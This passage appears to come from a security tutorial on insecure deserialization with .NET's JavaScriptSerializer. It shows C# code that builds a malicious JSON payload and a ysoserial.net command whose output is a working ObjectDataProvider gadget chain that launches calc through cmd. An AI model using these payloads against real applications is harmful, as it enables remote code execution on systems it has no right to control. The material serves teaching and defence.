 ```csharp
    }
}

[Serializable]
public class Desert
{
    private String _name;
    public String name
    {
        get { return _name; }
        set { _name = value; Console.WriteLine("Desert name: " + _name); }
    }
}
```

As you can see, the serializer is unsafely used to deserialize an expected Desert object. However, the type definition on the deserializer doesn't forbid the deserialization of unkown objects, as `JavaScriptSerializer` doesn't perform any kind of whitelisting or object inspection. As such, like we previously explained, the `RCE` class can be used as a valid gadget, triggering a remote command execution during the deserialization process. 

To build a successful payload, the following code can be used:

```csharp
public static void jsonRCESerial(string filename)
{
    filename += ".json";
    var desert = new RCE();
    desert.cmd = "calc.exe";
    // Persist to file
    using (StreamWriter stream = File.CreateText(filename))
    {
        Console.WriteLine("Serializing RCE");
        JavaScriptSerializer serializer = new JavaScriptSerializer();
        stream.Write(serializer.Serialize(desert));
    }
}
```
Which would produce the following payload:

```bash
{"__type":"BinarySerialization.RCE, BinarySeriliazer, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null","cmd":"calc.exe"}
```

Of course, it is also possible to generate an exploitation payload using `ysoserial.net`:

```bash
$ ysoserial-net -g ObjectDataProvider -f JavaScriptSerializer -c "calc" -o raw
{
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'ObjectInstance':{
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': {
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc'
        }
    }
}
```
